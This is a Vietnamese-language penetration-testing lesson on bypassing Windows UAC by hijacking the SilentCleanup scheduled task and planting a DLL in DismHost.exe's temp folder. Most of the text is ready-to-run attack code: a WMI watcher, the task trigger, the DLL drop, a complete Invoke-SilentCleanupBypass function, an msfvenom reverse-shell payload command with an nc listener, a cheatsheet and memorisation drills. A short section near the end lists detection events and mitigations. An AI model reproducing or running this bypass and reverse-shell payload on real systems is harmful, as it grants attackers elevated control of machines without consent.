

> **Prerequisites**: [[07-dll-hijack-systemproperties|07. DLL Hijack — SystemPropertiesAdvanced]] · [[08-ifileoperation-dll-hijack|08. IFileOperation]]
> **Objectives**:
> - Hiểu SilentCleanup scheduled task chạy elevated và spawn process con trong user-writable path
> - Khai thác DLL write race condition trong DismHost.exe execution
> - Thực hiện bypass qua missing DLL dependency (api-ms-win-* variant)
> - Biết technique này hoạt động với UAC = Always Notify (level 2)

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local Administrators group
> - **Hoạt động kể cả khi UAC = Always Notify** (khác với hầu hết techniques khác)
> - Windows 10 / 11 (SilentCleanup task tồn tại)
> - Cần write được file vào user AppData path

> [!tip] Ưu điểm quan trọng
> Đây là một trong số ít techniques **bypass được UAC Always Notify** vì không trigger auto-elevation của binary thông thường — mà khai thác scheduled task đã được cấu hình chạy với elevated privilege.

---

## Cơ chế tấn công

### SilentCleanup Scheduled Task

Windows có built-in scheduled task tên **SilentCleanup** (hay còn gọi là **Disk Cleanup**):

```text
Task path: \Microsoft\Windows\DiskCleanup\SilentCleanup
Run As: Highest available privileges
Trigger: On-demand, có thể trigger manually
Binary: %windir%\system32\cleanmgr.exe
```

Key property: task này được cấu hình `Run with highest privileges` — khi user trong Administrators group trigger task, nó tự chạy với High Integrity mà **không cần UAC prompt**, kể cả ở Always Notify.

### DismHost.exe — Process Con Trong User-Writable Path

Khi `cleanmgr.exe` chạy, nó spawn `DismHost.exe` để thực hiện component cleanup. `DismHost.exe` được spawn vào path:

```text
%LOCALAPPDATA%\Temp\{GUID}\DismHost.exe
```

Path này là trong user's AppData — **writable bởi Medium Integrity process**. Attacker có thể:

1. Race condition: tạo folder `{GUID}` trước khi cleanmgr tạo nó, đặt malicious binary vào đó
2. Missing DLL: `DismHost.exe` cố load `api-ms-win-core-kernel32-legacy-l1.dll` và các DLLs khác từ folder của nó — attacker đặt malicious DLL vào đó thay vì race với executable

### Variant 1 — Missing DLL (api-ms-win-core-kernel32-legacy-l1.dll)

`DismHost.exe` khi chạy ở `%TEMP%\{GUID}\` cố load `api-ms-win-core-kernel32-legacy-l1.dll` từ **current directory** trước khi fallback về System32. Attacker đặt malicious DLL vào temp folder trước khi task trigger.

```text
Attacker (Medium Integrity)
    ↓ Monitor WMI: watch cho DismHost process start event
    ↓ Khi DismHost.exe xuất hiện trong %TEMP%\{GUID}\
    ↓ Nhanh chóng copy malicious api-ms-win-core-kernel32-legacy-l1.dll vào {GUID}\
    ↓ DismHost.exe (High Integrity) load DLL từ current dir
→ DLL code chạy ở High Integrity
```

### Variant 2 — %windir% Environment Variable Hijack (kết hợp với Lesson 13)

SilentCleanup task dùng `%windir%` trong PATH. Nếu attacker kiểm soát `%windir%` (xem Lesson 13), task sẽ load binary/DLL từ attacker-controlled path.

---

## Quy trình tấn công

**Môi trường giả định**: Medium Integrity shell, Windows 10, UAC có thể ở bất kỳ level nào.

### Bước 1 — Kiểm tra SilentCleanup task

```powershell
# Verify task tồn tại và có thể trigger
Get-ScheduledTask -TaskName "SilentCleanup" | Select-Object TaskName, State, Principal
schtasks /query /tn "\Microsoft\Windows\DiskCleanup\SilentCleanup" /fo LIST
```

> **Expected output**: Task State = Ready, RunLevel = HighestAvailable.

### Bước 2 — Monitor DismHost spawn location

```powershell
# Setup WMI monitor để bắt DismHost process start
$query = "SELECT * FROM __InstanceCreationEvent WITHIN 1 " +
         "WHERE TargetInstance ISA 'Win32_Process' " +
         "AND TargetInstance.Name = 'DismHost.exe'"

$watcher = New-Object Management.ManagementEventWatcher
$watcher.Query = $query
$watcher.Options.Timeout = [TimeSpan]::FromSeconds(30)

# Trigger task
Start-ScheduledTask -TaskName "\Microsoft\Windows\DiskCleanup\SilentCleanup"

# Wait for DismHost
$event = $watcher.WaitForNextEvent()
$proc  = $event.TargetInstance
Write-Output "[+] DismHost spawned: PID=$($proc.ProcessId)"
Write-Output "[+] Path: $($proc.ExecutablePath)"
```

> **Expected output**: Path sẽ là `C:\Users\<user>\AppData\Local\Temp\{GUID}\DismHost.exe`

### Bước 3 — Extract GUID và plant DLL

```powershell
# Extract GUID directory từ DismHost path
$dismPath = $proc.ExecutablePath
$dismDir  = Split-Path $dismPath

Write-Output "[+] DismHost dir: $dismDir"

# Plant malicious DLL (đã chuẩn bị trước)
$malDll = "C:\Users\Public\api-ms-win-core-kernel32-legacy-l1.dll"
Copy-Item $malDll "$dismDir\api-ms-win-core-kernel32-legacy-l1.dll"
Write-Output "[+] DLL planted"
```

> **Expected output**: Callback nhận được ở listener — DismHost.exe load DLL của attacker.

### Script automation đầy đủ

```powershell
function Invoke-SilentCleanupBypass {
    param(
        [string]$PayloadDll = "C:\Users\Public\payload.dll",
        [int]$TimeoutSeconds = 30
    )

    $targetDll = "api-ms-win-core-kernel32-legacy-l1.dll"

    # WMI monitor
    $q = "SELECT * FROM __InstanceCreationEvent WITHIN 1 " +
         "WHERE TargetInstance ISA 'Win32_Process' " +
         "AND TargetInstance.Name = 'DismHost.exe'"
    $w = New-Object Management.ManagementEventWatcher
    $w.Query = $q
    $w.Options.Timeout = [TimeSpan]::FromSeconds($TimeoutSeconds)

    try {
        # Trigger task
        Write-Output "[*] Triggering SilentCleanup..."
        Start-ScheduledTask -TaskName "\Microsoft\Windows\DiskCleanup\SilentCleanup"

        # Wait for DismHost
        $evt    = $w.WaitForNextEvent()
        $path   = $evt.TargetInstance.ExecutablePath
        $dir    = Split-Path $path

        Write-Output "[+] DismHost at: $dir"

        # Plant DLL
        Copy-Item $PayloadDll "$dir\$targetDll"
        Write-Output "[+] DLL planted: $dir\$targetDll"

        Start-Sleep -Seconds 3
        Write-Output "[+] Done — check listener"

    } catch {
        Write-Output "[-] Timeout or error: $_"
    } finally {
        $w.Dispose()
    }
}

# Usage:
# 1. Prepare payload DLL first
# 2. msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll -o payload.dll
# 3. Upload payload.dll to C:\Users\Public\
# 4. nc -lvnp PORT (on attacker)
# 5. Invoke-SilentCleanupBypass -PayloadDll "C:\Users\Public\payload.dll"
```

---

## Biến thể & Bypass

### Variant — %TEMP% DLL tanpa race condition

Một số Windows versions: DismHost folder được tạo sớm, đủ thời gian để plant DLL:

```powershell
# Trigger task
Start-ScheduledTask -TaskName "\Microsoft\Windows\DiskCleanup\SilentCleanup"

# Poll cho thư mục DismHost xuất hiện
$dismDir = $null
for ($i = 0; $i -lt 20; $i++) {
    $dirs = Get-ChildItem "$env:TEMP" -Filter "*" -Directory |
            Where-Object { Test-Path "$($_.FullName)\DismHost.exe" }
    if ($dirs) {
        $dismDir = $dirs[0].FullName
        break
    }
    Start-Sleep -Milliseconds 500
}

if ($dismDir) {
    Copy-Item "payload.dll" "$dismDir\api-ms-win-core-kernel32-legacy-l1.dll"
    Write-Output "[+] Planted at $dismDir"
} else {
    Write-Output "[-] DismHost directory not found in time"
}
```

### UAC Always Notify — Key differentiator

```powershell
# Verify UAC level trước — technique này work ở ALL levels
$key = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
$level = (Get-ItemProperty $key).ConsentPromptBehaviorAdmin
Write-Output "UAC Level: $level"
# 0 = No prompt, 1 = creds required, 2 = Always Notify, 5 = Default
# SilentCleanup bypass works on ALL of these!
```

---

## Cây quyết định



---

## Command Cheatsheet

**Kiểm tra task**

```powershell
Get-ScheduledTask "SilentCleanup" | Select TaskName, State
schtasks /query /tn "\Microsoft\Windows\DiskCleanup\SilentCleanup" /fo LIST
```

**Trigger task**

```powershell
Start-ScheduledTask -TaskName "\Microsoft\Windows\DiskCleanup\SilentCleanup"
```

**Monitor DismHost (WMI)**

```powershell
$w = New-Object Management.ManagementEventWatcher
$w.Query = "SELECT * FROM __InstanceCreationEvent WITHIN 1 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'DismHost.exe'"
$w.Options.Timeout = [TimeSpan]::FromSeconds(30)
Start-ScheduledTask -TaskName "\Microsoft\Windows\DiskCleanup\SilentCleanup"
$evt = $w.WaitForNextEvent()
$dir = Split-Path $evt.TargetInstance.ExecutablePath
Write-Output $dir
```

**Plant DLL**

```powershell
Copy-Item "payload.dll" "$dir\api-ms-win-core-kernel32-legacy-l1.dll"
```

**Tạo payload DLL**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> \
    -f dll -o payload.dll
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — WMI monitor syntax**
Mục tiêu: nhớ WMI query để watch DismHost.

```powershell
$w = New-Object Management.ManagementEventWatcher
$w.Query = "SELECT * FROM __InstanceCreationEvent WITHIN 1 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'DismHost.exe'"
```

Luyện cho đến khi: viết lại WQL query mà không cần lookup.

**Drill 2 — Target DLL name**
Mục tiêu: nhớ tên DLL bị missing.

```text
api-ms-win-core-kernel32-legacy-l1.dll
```

Luyện cho đến khi: nhớ tên DLL đầy đủ không cần copy-paste.

**Drill 3 — UAC level check**
Mục tiêu: nhớ cách check UAC level và biết technique nào work ở level nào.

```powershell
(Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System").ConsentPromptBehaviorAdmin
```

Luyện cho đến khi: biết level 2 = Always Notify → chỉ SilentCleanup và %windir% techniques work.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Process chain**: `svchost.exe (Task Scheduler) → cleanmgr.exe → DismHost.exe → (malicious child)`
> - Sysmon Event ID 1: `ParentImage: *DismHost.exe*`, `Image: cmd.exe/powershell.exe`
>
> **DLL load**: DismHost.exe load DLL không phải Microsoft signature từ %TEMP%
> - Sysmon Event ID 7: `ImageLoaded: *Temp*api-ms-win*`, `Signed: false`
>
> **File creation**: DLL drop vào `%TEMP%\{GUID}\` bởi non-System process
> - Sysmon Event ID 11: `TargetFilename: *Temp*api-ms-win-core*`
>
> **Task trigger**: SilentCleanup triggered ngoài schedule bình thường (on-demand)
> - Windows Security Event ID 4688: cleanmgr.exe spawn bởi non-SYSTEM account

> [!note] Mitigation
> - Monitor DLL load của DismHost.exe: whitelist chỉ Microsoft-signed DLLs
> - Alert khi SilentCleanup trigger on-demand (không phải scheduled time)
> - WDAC policy: restrict DLL loading cho DismHost.exe
> - Disable SilentCleanup task nếu không cần (ít practical cho enterprise)

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10 UAC Always Notify | Verify technique work khi standard techniques fail |
| Local VM | Windows 10 + Sysmon | Test detection — quan sát Event ID 7 và 11 |
| HTB | **Endgame XEN** (Retired) | Scheduled task exploitation chain |
| Local VM | Windows 11 | Test compatibility với newer builds |

---

## Field Manual Entry

> [!abstract] SilentCleanup Scheduled Task UAC Bypass
> **Điều kiện**: User trong Admins — **works with UAC Always Notify!**
> **Cơ chế**: SilentCleanup task (Run as Highest) → cleanmgr → DismHost.exe trong %TEMP%\{GUID}\ → missing DLL planted bởi attacker
> **Target DLL**: `api-ms-win-core-kernel32-legacy-l1.dll`
> **Quick flow**:
> ```powershell
> # 1. Prepare + upload payload.dll
> # 2. Setup WMI monitor
> $w = New-Object Management.ManagementEventWatcher
> $w.Query = "SELECT * FROM __InstanceCreationEvent WITHIN 1 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'DismHost.exe'"
> $w.Options.Timeout = [TimeSpan]::FromSeconds(30)
> # 3. Trigger
> Start-ScheduledTask -TaskName "\Microsoft\Windows\DiskCleanup\SilentCleanup"
> # 4. Plant
> $dir = Split-Path ($w.WaitForNextEvent().TargetInstance.ExecutablePath)
> Copy-Item payload.dll "$dir\api-ms-win-core-kernel32-legacy-l1.dll"
> ```
> **Ref**: [[12-silentcleanup-task-hijack|12. SilentCleanup Scheduled Task Hijack]]
